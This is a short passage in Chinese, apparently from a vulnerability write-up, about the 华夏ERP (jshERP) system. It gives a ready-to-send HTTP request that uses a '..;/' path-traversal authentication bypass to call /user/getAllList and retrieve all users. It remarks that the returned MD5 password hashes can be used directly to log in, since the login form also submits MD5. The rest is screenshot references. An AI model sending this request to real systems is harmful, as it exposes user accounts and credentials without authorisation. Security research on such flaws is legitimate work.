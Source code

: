 `华夏erp` 数据库中存储的密码是MD5加密的，所以只能获取到MD5加密的密码，不过问题不大，因为登录的时候传参也是MD5。废话不多说直接`poc`：

```poc
GET /jshERP-boot/user/login/..;/..;/user/getAllList HTTP/1.1
Host: 
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240831091435730](assets/image-20240831091435730.png)

这里其实就是用到了前面的绕过操作调试如下：

![image-20240831091725845](assets/image-20240831091725845.png)
